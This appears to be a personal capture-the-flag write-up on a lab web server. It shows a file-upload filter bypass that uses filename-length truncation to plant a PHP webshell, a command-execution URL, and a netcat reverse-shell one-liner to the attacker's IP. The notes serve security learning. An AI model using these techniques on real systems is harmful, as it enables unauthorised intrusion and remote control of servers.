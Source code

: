 We know that the upload function downloads images using a URL. Tried to upload .php files by trying
- php%00.png
- php".png
- php'.png 
none of them worked. Even tried PhP, php7, PHP, pHp, etc. but none worked. 

The admin profile page says
![[Pasted image 20240904154120.png]]

Using the walkthrough, "Know your limits" is actually a hint for character limit on a file name that is acceptable when it gets saved in the backend /upload folder.

Using [[PHP Passthru]] inserted the PHP code in a file named 'Z'*232+.php+.png

ZZZZ.....ZZ.php.png

This way it saves the file as ZZZZ.....ZZ.php and omits rest of the characters. 

- Since we know the upload folder when uploading a file, navigated to
http://10.10.10.73/uploads/0904-1247_745284d2e40fc01e/ZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZZ.php?cmd=id
![[Pasted image 20240904154504.png]]

Got a reverse shell as `www-data` using 
```bash
busybox nc 10.10.14.7 443 -e /bin/bash
```

Under `/var/www/html/connection.php`
![[Pasted image 20240904155126.png]]

